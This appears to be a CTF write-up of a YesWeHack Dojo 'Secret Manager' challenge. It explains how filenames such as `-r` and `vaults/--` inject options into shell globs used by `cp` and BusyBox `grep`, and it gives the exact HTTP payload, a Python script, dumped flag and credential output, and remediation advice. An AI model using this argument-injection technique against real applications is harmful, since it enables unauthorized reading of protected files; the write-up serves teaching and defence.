



## Introduction

Hey folks! Hope everyone's doing well!

So the other day I was scrolling through YesWeHack's monthly Dojo challenges and saw Dojo #49 — a "Secret Manager" challenge by [zerodaygym](https://x.com/zerodaygym). The pitch sounded simple enough: there's a secret vault app, some files are protected behind access controls, go steal the flag. Classic stuff, right?

What I didn't expect was ending up down a rabbit hole involving BusyBox quirks, ASCII sort order mathematics, and literally weaponizing filenames as program arguments. The final exploit is honestly one of the most satisfying things I've pulled off — a single HTTP request that chains two separate glob injection tricks to completely bypass every security control in the app.

Let me walk you through the entire journey.

## The Challenge

The challenge lives at:

```
https://dojo-yeswehack.com/challenge-of-the-month/dojo-49
```



When you land on the page, you're greeted with a slick dark-themed "Secret Manager" UI. It has sections for uploading secrets, viewing them, and searching through a vault. 

But here's the thing — **every single button is disabled**. They all say "Button temporarily broken — maintenance in progress." So no clicking around the UI. You have to interact with the backend directly through the API.

There's also a hint:

> *"The star in Linux holds a lot of secrets..."*



Keep that hint in the back of your mind. It's going to make a lot of sense later.

## Reading the Source Code

The Dojo platform lets you see the template code that runs on the server for each request. Let me walk through the important bits because understanding the code is everything here.

### The Setup

Before each challenge run, the server sets up this file structure:

```
/tmp/
├── templates/
│   └── index.html              ← Jinja2 template
├── uploads/                    ← UPLOAD_FOLDER  
│   ├── internal_secrets/
│   │   ├── flag.txt            ← 🏴 THE FLAG
│   │   └── admin_credentials.txt
│   ├── vaults/                 ← VAULT_FOLDER (backup destination)
│   ├── extracted/
│   └── user_secrets.txt
```

So the flag sits in `/tmp/uploads/internal_secrets/flag.txt`. Our job is to read it.

### The Template Code

The server accepts four POST parameters:

- **`action`** — what to do (`viewFile` or `search`)
- **`filenames`** — space-separated list of filenames to create
- **`content`** — what to write into those files
- **`search_term`** — the grep pattern to search for

All four inputs pass through a URL-encode filter in the Dojo platform before reaching the code, and then get decoded with `unquote()`.

Here's the core logic, stripped down to the important parts:

```python
UPLOAD_FOLDER = '/tmp/uploads'
VAULT_FOLDER = '/tmp/uploads/vaults'

def main():
    action = unquote("$action")
    filenames = unquote("$filenames").split()   # space-separated!
    content = unquote("$content")
    grep = unquote("$search_term")

    # Validation
    for filename in filenames:
        if filename.startswith('/'):
            error = True; break
        elif '\\' in filename or '..' in filename:
            error = True; break

    # Create files
    for filename in filenames:
        file_path = os.path.join(UPLOAD_FOLDER, filename)
        with open(file_path, "w") as f:
            f.write(content)

    # Backup to vault
    os.chdir(UPLOAD_FOLDER)
    os.system(f'cp * {VAULT_FOLDER} 2>/dev/null')    # 👈 THIS LINE

    # Search action
    if action == 'search':
        if re.fullmatch(r'[a-zA-Z0-9.]+', grep):
            os.chdir(VAULT_FOLDER)
            result = os.popen(
                f'grep -r "{grep}" * --exclude-dir=internal_secrets 2>/dev/null'
            ).read()                                  # 👈 AND THIS LINE
```

Two lines. That's where the entire vulnerability lives. Both use shell glob `*`, and both are exploitable.

There's also a `viewFile` action that reads files from the vault, but it has a hardcoded check:

```python
if 'internal_secrets' in filename:
    results.append(f"ERR: Access denied to '{filename}'")
    continue
```

So directly viewing the flag through `viewFile` is a dead end. We need to go through `search`.

## Identifying the Vulnerabilities

When you stare at those two shell commands, a few things jump out.

### The `cp *` Problem

```bash
cp * /tmp/uploads/vaults/ 2>/dev/null
```

When bash expands `*` in the uploads directory, it expands to all filenames sorted alphabetically. And here's the key — **filenames are passed as arguments to `cp`**. So if you create a file called `-r`, the expansion becomes:

```bash
cp -r extracted internal_secrets user_secrets.txt vaults /tmp/uploads/vaults/
```

The shell doesn't care that `-r` is a filename. `cp` sees it as a flag. Now `cp` runs in recursive mode and copies the `internal_secrets/` **directory** — including `flag.txt` — into the vault.

Without `-r`, `cp` would just skip directories silently. With it, everything gets copied. That's glob injection trick number one.

### The `grep *` Problem

```bash
grep -r "{grep}" * --exclude-dir=internal_secrets 2>/dev/null
```

There's a comment in the code that says:

```python
# We just moved from GNU to BusyBox, our developers are on it.
```

This is a massive clue. **BusyBox `grep` doesn't support `--exclude-dir`**. The flag isn't recognized, and since stderr is suppressed by `2>/dev/null`, the grep command just silently fails. Every single search returns nothing. The search feature is literally broken.

But what if we could make grep treat `--exclude-dir=internal_secrets` as a **filename** instead of an option?

Enter the `--` option terminator. In POSIX convention, `--` signals the end of options — everything after it is treated as a positional argument (filename). If we create a file called `--` in the vault, grep's glob expansion might look like:

```bash
grep -r "." -- internal_secrets user_secrets.txt ... --exclude-dir=internal_secrets
```

After `--`, grep treats `internal_secrets` as a directory to search and `--exclude-dir=internal_secrets` as a (nonexistent) file to read. The exclusion is completely neutralized.

That's glob injection trick number two.

## The Sort Order Problem (And Why I Got Stuck)

Alright so at this point I was thinking — easy, just create two files: `-r` and `--`. Boom, recursive copy and grep bypass in one shot.

But it's not that simple. And this is where I spent way too long banging my head.

The problem is **ASCII sort order**. When `*` expands in the uploads directory, files are sorted alphabetically:

| Filename | ASCII bytes | Sort position |
|----------|------------|---------------|
| `--` | `0x2D 0x2D` | Sorts **FIRST** |
| `-r` | `0x2D 0x72` | Sorts **SECOND** |

So the `cp *` expansion becomes:

```bash
cp -- -r extracted internal_secrets user_secrets.txt vaults /tmp/uploads/vaults/
```

`--` comes first and tells `cp` to stop parsing options. Now `-r` is just treated as a regular filename — not a flag. No recursive copy. The `internal_secrets/` directory never makes it to the vault. Game over.

I tried a bunch of workarounds. Sending two separate requests, hoping the environment persists between them. Trying different filename tricks. Checking if `viewFile` had any bypasses. Nothing worked.

Then it hit me.

## The Dual-Location Trick

What if I don't put `--` in the uploads root at all? What if I put it **directly in the vault**?

Look at the filename validation again:

```python
if filename.startswith('/'):       # blocks absolute paths
    error = True
elif '\\' in filename or '..' in filename:  # blocks directory traversal
    error = True
```

It blocks absolute paths, backslashes, and `..` traversal. But it **doesn't block forward slashes in the middle of a filename**. And it definitely doesn't block a path like `vaults/--`.

When the app calls `os.path.join(UPLOAD_FOLDER, 'vaults/--')`, it resolves to `/tmp/uploads/vaults/--`. That's **directly inside the vault directory**. The file bypasses the `cp *` step entirely because it's already where it needs to be.

Meanwhile, `-r` sits alone in the uploads root. The `cp *` expansion in uploads becomes:

```bash
cp -r extracted internal_secrets user_secrets.txt vaults /tmp/uploads/vaults/
```

No `--` to interfere. `-r` is consumed as the recursive flag. `internal_secrets/` gets recursively copied into the vault with all its contents.

Then when grep runs in the vault, `*` expands to:

```bash
grep -r "." -- extracted internal_secrets user_secrets.txt vaults --exclude-dir=internal_secrets
```

The `--` file IS present in the vault (we put it there directly). It tells grep to stop parsing options. `internal_secrets` is treated as a searchable directory. `--exclude-dir=internal_secrets` is treated as a nonexistent filename. Grep recurses into `internal_secrets/`, reads `flag.txt`, and returns the flag.

One request. Two files. Complete bypass.

## The Exploit

Here's the actual payload:

```
POST /api/challenges/223402b4-9aa5-4132-aebb-17c99f7513db
Content-Type: application/x-www-form-urlencoded
Cookie: jwt=<your-token>

action=search&filenames=-r+vaults%2F--&content=x&search_term=.
```

Breaking it down:

| Parameter | Value | What it does |
|-----------|-------|-------------|
| `action` | `search` | Triggers the grep search path |
| `filenames` | `-r vaults/--` | Creates `-r` in uploads root + `--` directly in vault |
| `content` | `x` | Doesn't matter, just needs something |
| `search_term` | `.` | Regex dot matches ANY character — catches everything |

And here's a quick Python script to fire it:

```python
import urllib.request, urllib.parse, json, ssl, re, html

JWT = "<YOUR_JWT>"
API = "https://dojo-yeswehack.com/api/challenges/223402b4-9aa5-4132-aebb-17c99f7513db"

data = urllib.parse.urlencode({
    "action": "search",
    "filenames": "-r vaults/--",
    "content": "x",
    "search_term": "."
}).encode()

req = urllib.request.Request(API, data=data, method="POST")
req.add_header("Content-Type", "application/x-www-form-urlencoded")
req.add_header("Cookie", f"jwt={JWT}")

resp = urllib.request.urlopen(req, context=ssl.create_default_context())
result = json.loads(resp.read().decode())

print(f"Flagged: {result['flagged']}")
for match in re.findall(r'<pre[^>]*>(.*?)</pre>', result["output"], re.DOTALL):
    print(html.unescape(match))
```

## The Result

Ran the exploit and got this back:

```
Flagged: True

Search results for '.':
internal_secrets/flag.txt:FLAG{A1m_F0r_Th3_St4r!}
internal_secrets/admin_credentials.txt:admin:super_secret_password_123
user_secrets.txt:This is a user secret file.
vaults/--:x
vaults/user_secrets.txt:This is a user secret file.
```



There it is. The flag, admin credentials, everything. All dumped in a single request.


**Flag: `FLAG{A1m_F0r_Th3_St4r!}`**

The `flagged: true` in the response confirmed the challenge was solved. Felt insanely good to see that after all the rabbit holes I went down.

## Why This Works — A Visual Walkthrough

Let me lay out the entire attack chain step by step because the beauty is in how the pieces fit together.

```
┌─────────────────────────────────────────────────────────┐
│ STEP 1: File Creation                                   │
│                                                         │
│   "-r"        → /tmp/uploads/-r         (uploads root)  │
│   "vaults/--" → /tmp/uploads/vaults/--  (inside vault!) │
└────────────────────────┬────────────────────────────────┘
                         │
                         ▼
┌─────────────────────────────────────────────────────────┐
│ STEP 2: cp * /tmp/uploads/vaults/                       │
│                                                         │
│   Glob expands to:                                      │
│   → cp -r extracted internal_secrets user_secrets.txt   │
│        vaults /tmp/uploads/vaults/                      │
│                                                         │
│   "-r" consumed as cp's recursive flag                  │
│   internal_secrets/ recursively copied to vault!        │
└────────────────────────┬────────────────────────────────┘
                         │
                         ▼
┌─────────────────────────────────────────────────────────┐
│ STEP 3: Vault state after copy                          │
│                                                         │
│   /tmp/uploads/vaults/                                  │
│   ├── --                    (pre-planted by us)         │
│   ├── internal_secrets/                                 │
│   │   ├── flag.txt          ← THE FLAG IS HERE          │
│   │   └── admin_credentials.txt                         │
│   ├── user_secrets.txt                                  │
│   └── extracted/                                        │
└────────────────────────┬────────────────────────────────┘
                         │
                         ▼
┌─────────────────────────────────────────────────────────┐
│ STEP 4: grep -r "." * --exclude-dir=internal_secrets    │
│                                                         │
│   Glob expands to:                                      │
│   → grep -r "." -- extracted internal_secrets           │
│        user_secrets.txt --exclude-dir=internal_secrets  │
│                                                         │
│   "--" stops option parsing                             │
│   "internal_secrets" is searched as a directory         │
│   "--exclude-dir=..." treated as a missing file         │
│                                                         │
│   OUTPUT: internal_secrets/flag.txt:FLAG{...}           │
└─────────────────────────────────────────────────────────┘
```

## Things I Tried That Didn't Work

Before arriving at the final exploit, I went through a painful trial-and-error process. Documenting these because they might help someone thinking through similar challenges.

**1. Direct `viewFile` on `internal_secrets/flag.txt`** — Nope. The code checks `if 'internal_secrets' in filename` and blocks it. No bypass here since Jinja2 has `autoescape=True` so no template injection either.

**2. Just creating `-r` and searching** — The `-r` trick copies `internal_secrets/` into the vault, but without `--`, BusyBox grep chokes on `--exclude-dir` and returns nothing. Every search returns empty.

**3. Creating both `-r` and `--` in uploads root** — The ASCII sort order problem. `--` (0x2D2D) sorts before `-r` (0x2D72), disabling `-r` as a cp flag. No recursive copy happens.

**4. Two separate requests** — Tried uploading `-r` first, then `--` in a second request. But the environment resets between requests. No persistence.

**5. Using `viewFile` after recursive copy** — Even with `-r` making cp recursive, `viewFile` only lists top-level vault files via `os.listdir(VAULT_FOLDER)`. It would need a filename match, and `internal_secrets/flag.txt` gets blocked by the string check anyway.

The breakthrough was realizing I could **split the file placement** — one in uploads root for cp, one directly in vault for grep — using the path traversal via `vaults/--`.

## Key Takeaways

A few things that made this challenge interesting from a security perspective:

**1. Glob `*` in shell commands is dangerous.** This is the core issue. When filenames expand into program arguments, an attacker controls the flags. The fix is simple — use `./` prefix (`cp ./* dest/`) or better yet, don't use shell commands at all. Python's `shutil` handles copies without this risk.

**2. Filenames starting with `-` should always be rejected.** If you're letting users control filenames that end up in shell commands, blocking dash-prefixed names is the bare minimum.

**3. Don't rely on shell flags for access control.** The `--exclude-dir=internal_secrets` approach is fragile. It depends on the grep implementation (GNU vs BusyBox), can be bypassed through option terminators, and fails silently. Access control should live in application logic, not CLI flags.

**4. The BusyBox migration comment was a gift.** The developers literally told us the security control was broken. `--exclude-dir` doesn't exist in BusyBox grep. That comment should have been a red flag during code review — instead it became the challenge hint.

**5. Internal path separators in filenames are sneaky.** The validation blocked absolute paths (`/`), backslashes, and `..` — but forgot that `vaults/--` lets you write directly into subdirectories. Always validate against a strict allowlist for filenames.

---

This was genuinely one of the more creative CTF challenges I've solved recently. The "aha moment" when I realized I could split the file placement between two different directories — one for the cp trick and one for the grep trick — was incredibly satisfying. Shoutout to zerodaygym for designing a challenge that requires you to think about ASCII sort order and POSIX option parsing conventions.

If you're into this kind of stuff, definitely check out YesWeHack's Dojo challenges. They drop a new one regularly and they're always well-crafted.

Until next time!
